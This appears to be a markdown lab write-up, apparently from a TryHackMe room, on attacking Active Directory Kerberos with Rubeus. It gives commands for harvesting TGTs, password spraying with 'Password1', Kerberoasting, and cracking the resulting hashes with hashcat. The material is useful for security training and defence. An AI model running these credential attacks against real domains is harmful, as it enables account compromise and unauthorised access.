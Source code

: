 ## Harvesting Tickets

A compiled copy of rubeus should already have been on the target machine

Navigate to the directory where you have **Rubeus** and use the command below;

`Rubeus.exe harvest /interval:30`

> This command tells Rubeus to harvest for TGTs every 30 seconds

![image](https://user-images.githubusercontent.com/16500435/103440167-ab932880-4c43-11eb-8313-d5fb2d6d79ab.png)


## Brute-Forcing / Password-Spraying

>Rubeus can both brute force passwords as well as password spray user accounts. When brute-forcing passwords you use a single user account and a wordlist of passwords to see which password works for that given user account. In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

>This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

- [ ] Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command: 

`echo 10.10.191.100 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

**Password spraying** using password **Password1** we use the command 

`Rubeus.exe brute /password:Password1 /noticket`

![image](https://user-images.githubusercontent.com/16500435/103440287-7a672800-4c44-11eb-93c1-293160e888c8.png)

>This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user 

## Kerberoasting

>Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain.

**Command**

`Rubeus.exe kerberoast`

>This will dump the Kerberos hash of any kerberoastable users

The hashes can be cracked using `hashcat`

`root@kali:~/Desktop/thm# hashcat -m 13100 -a 0 hash.txt pass.txt`
